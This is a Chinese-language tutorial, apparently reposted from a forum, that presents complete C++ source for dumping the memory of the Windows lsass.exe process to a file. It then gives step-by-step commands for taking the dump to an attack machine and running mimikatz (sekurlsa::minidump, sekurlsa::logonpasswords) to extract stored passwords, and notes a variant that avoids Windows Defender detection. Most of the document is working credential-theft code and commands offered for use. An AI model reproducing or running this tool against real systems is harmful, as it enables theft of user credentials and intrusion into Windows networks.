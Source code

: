 # 利用windows api dump进程

> 原文：[https://www.zhihuifly.com/t/topic/3461](https://www.zhihuifly.com/t/topic/3461)

# 利用windows api dump进程

## c++源代码

```
#include "stdafx.h"
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
using namespace std;

int main() {

DWORD lsassPID = 0;

HANDLE lsassHandle = NULL;

HANDLE outFile = CreateFile(L"lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

PROCESSENTRY32 processEntry = {};

processEntry.dwSize = sizeof(PROCESSENTRY32);

LPCWSTR processName = L"";

```
if (Process32First(snapshot, &amp;processEntry)) {
    while (_wcsicmp(processName, L"lsass.exe") != 0) {
        Process32Next(snapshot, &amp;processEntry);
        processName = processEntry.szExeFile;
        lsassPID = processEntry.th32ProcessID;
    }
    wcout &lt;&lt; "[+] Got lsass.exe PID: " &lt;&lt; lsassPID &lt;&lt; endl;
}

lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);
BOOL isDumped = MiniDumpWriteDump(lsassHandle, lsassPID, outFile, MiniDumpWithFullMemory, NULL, NULL, NULL);

if (isDumped) {
    cout &lt;&lt; "[+] lsass dumped successfully!" &lt;&lt; endl;
}

return 0; 
``` `}` 
```

https://github.com/ianxtianxt/windows-api-dump/

## 执行演示

### 执行CreateMiniDump.exe（上面的编译文件）或编译自己的二进制文件

### Lsass.dmp被转储到工作目录

### 让lsass.dmp离线到你的攻击机器上

### 打开mimikatz并加载到转储文件中

### 储存密码

.\createminidump.exe
.\mimikatz.exe
sekurlsa::minidump c:\temp\lsass.dmp
sekurlsa::logonpasswords

![image](img/7e6de70eadfedd6d11cfa380900367ec.png)

![image](img/af4ec2eb7a843161cd07d46998c66b3e.png)

可以在mimikatz中离线读取

![image](img/92b8285b4a0a170e804694b312fbde86.png)

这里有一个pdocdump可以执行相同的操作，并且不会被windows defender标记。